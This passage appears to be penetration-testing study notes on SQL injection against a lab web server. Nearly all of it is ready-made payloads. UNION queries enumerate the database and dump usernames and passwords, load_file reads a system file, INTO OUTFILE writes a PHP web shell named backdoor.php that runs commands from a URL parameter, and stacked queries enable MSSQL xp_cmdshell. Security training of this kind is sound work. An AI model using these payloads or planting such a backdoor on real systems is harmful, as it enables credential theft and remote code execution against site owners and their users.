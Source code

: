 ⚠️ Potential Rabbit Hole: You need to display the DB data using a TEXT field not an INT, etc... one!!

- Output the version of MariaDB:
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version--
  ```
- Extract the database user:
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()--
  ```
- Extract table names:
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables--
  ```
- Extract table columns
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'--
  ```
- Extract the users table
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users--
  ```
### From SQL Injection to Code Execution
Depending on the operating system, service privileges, and filesystem permissions, SQL injection vulnerabilities can be used to read and write files on the underlying operating system. Writing a carefully crafted file containing PHP code into the root directory of the web server could then be leveraged for full code execution.

⚠️ Potential Rabbit Hole: You don't know the root directory of the web server. 

0. See if we can read a file using the `load_file` function:
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')--
  ```
1. Use the `INTO OUTFILE` function to create a malicious PHP file in the server’s web root. Based on error messages we've already seen, we should know the location of the web root. We'll attempt to write a simple PHP one-liner, similar to the one used in the LFI example:
  ```url
  http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
  ```
2. This command produces an error message but this doesn't necessarily mean the file creation was unsuccessful. Let's try to access the newly-created `backdoor.php` page with a cmd parameter such as ipconfig:
  ```url
  http://10.11.0.22/backdoor.php?cmd=ifconfig
  ```
#### Exploit Stacked Queries
1. **Check the privileges of DB user.** Check if the DB user is `sysadmin` or not since only him can enable `xp_cmdshell` and execute OS level commands. We should see a 1 as response.
    ```url
    1' UNION SELECT 1,(SELECT is_srvrolemember('sysadmin')),3--
    ```
2. **Check the support for stacked queries.** Check if we can run multiple queries in a single statement by separating them with a semicolon (`;`) character.
    ```url
    1' UNION SELECT 1,2,3; WAITFOR DELAY '0:0:5';--
    ```
3. **Enable `xp_cmdshell`.**
    ```url
    1'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
    ```
